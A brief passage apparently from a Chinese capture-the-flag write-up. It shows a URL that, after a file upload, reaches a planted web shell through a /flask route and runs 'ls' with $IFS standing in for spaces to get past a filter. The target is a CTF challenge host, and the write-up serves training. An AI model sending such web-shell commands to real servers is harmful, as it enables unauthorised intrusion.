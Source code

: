 [![](assets/1700442594-a482d0d542e908a17c3f54651dbf2f3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160824-a546fd66-85e9-1.png)

成功上传之后，访问/flask 路由

```plain
http://40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show/flask?name=/shell?cmd=ls$IFS/
```

[![](assets/1700442594-159594c55e3c8b44e198f8c581a19859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160837-ad2f4128-85e9-1.png)
